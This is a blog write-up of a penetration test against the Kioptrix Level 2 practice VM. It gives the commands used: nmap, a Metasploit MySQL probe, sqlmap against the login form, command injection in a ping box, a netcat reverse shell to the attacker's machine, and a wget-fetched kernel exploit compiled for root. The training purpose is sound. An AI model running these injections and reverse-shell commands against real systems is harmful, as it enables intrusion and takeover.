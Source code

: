 ```yaml
---
layout:		post
title:  	"Kioptrix Level 2"
date: 		2018-02-26 14:00:00 +0800
summary:	Kioptrix Level 2 Penetration Test
categories:	kioptrix
---
```

Today we are going to solve Kioptrix Level 2. First we need to download the VM from the kioptrix website, add it to VMware and power it up!

We are met with this image:

![Kioptrix Login](/assets/kioptrix-start.png){:class="img-responsive"}

Let's get started. From my Kali machine I'm going to run an nmap scan, this will scan the entire network and we should be able to find the IP address of the Kioptrix machine. 

![nmap scan](/assets/nmap scan.PNG){:class="img-responsive"}

The nmap scan has brought back a number of open ports. The most interesting here would be the port 3306, the MySQL port. Let's look a bit further into that.

To do this we're going to use Metasploit. First we need to find out what version of MySQL is on the Kioptrix machine. We will do this with the following

{% highlight ruby %}
use auxiliary/scanner/mysql/mysql_version
#We then need to set a couple of parameters
set rhosts 192.168.1.101 #	This is the Kioptrix Machine IP 
						 #	that we found in the nmap scan
set rport 3306 #This is the open mysql port
run
{% endhighlight %}

![mysql version](/assets/mysql version result.
){:class="img-responsive"}

Well, that didn't really get us anywhere. At least we know it is mySQL. Let's launch a browser, go to the IP address and see what we are greeted with. 

![landing page](/assets/web landing page.PNG){:class="img-responsive"}

A login page. Let's use burpsuite, intercept the login and see what we can find out. 

![burpsuite](/assets/burpsuite.PNG){:class="img-responsive"}

Burpsuite has intercepted the login! Let's use this with sqlmap to try and get a workaround. 

In terminal we write:

{% highlight ruby %}
sqlmap -u "http://192.168.1.101/index.php" --data "uname=admin&psw=password&btnLogin=Login" --level=5 --risk=3
{% endhighlight %}

-u is for URL
--data this is where we put the data from our burpsuite intercept
--level is level of tests to perform from 1-5, may as well max it out
--risk is risk of tests 1-3, same again, max it out. As this isn't a real-world test we don't have to worry too much about the risk or level of attacks. 

![sqlmap complete](/assets/sqlmap-complete.PNG){:class="img-responsive"}

sqlmap has completed and found multiple injection points. Let's just use the username POST injection, we can do this in burpsuite by replacing the original code with the injection code. 

Now we are at this page:

![web after login](/assets/webpage after login.PNG){:class="img-responsive"}

What we need to now do is see if this textbox will run extra commands for us. Let's ping the Kioptrix machine and add {% highlight ruby %}; ls -l{% endhighlight %} and see if it brings back a list of files and owner of those files.

Sure enough, it does! Let's use another handy tool bundled in Kali, netcat

First we need to work out the location to put netcat on the Kioptrix machine. For this we use "; find / -name nc 2>/dev/null" into the webpage. This brings back "/usr/local/bin/nc". 

In Terminal, we get netcat listening with {% highlight ruby %}nc -lvp 1111{% endhighlight %}. I used port 1111, you can use whatever port you wish. 

Then back in the webapp textbox we need to input {% highlight ruby %}; /usr/local/bin/nc 192.168.1.5 -e '/bin/bash' 1111{% endhighlight %}



Now we've got a netcat connection going! Let's get some more information about the kernel. A quick {% highlight ruby %}uname -a{% endhighlight %} and we now know it's Linux Kernel 2.6.9-55 - Let's google an exploit

![uname](/assets/kernel.PNG){:class="img-responsive"}


http://www.exploit-db.com/exploits/9542/

This exploit seems like it's gonna work for us! It's been tested on a similar machine to this one. 

Let's save that to "/var/www/html", start Apache on our Kali machine and download the exploit through the session we created with netcat.

Okay, to download it let's first cd to /tmp. Now we can wget from our apache server, compile and execute!

![root](/assets/root.PNG){:class="img-responsive"}

Done! We are now root. I'll just change the password and login via the VM.

![have root](/assets/haveroot.PNG){:class="img-responsive"}


Thanks guys!
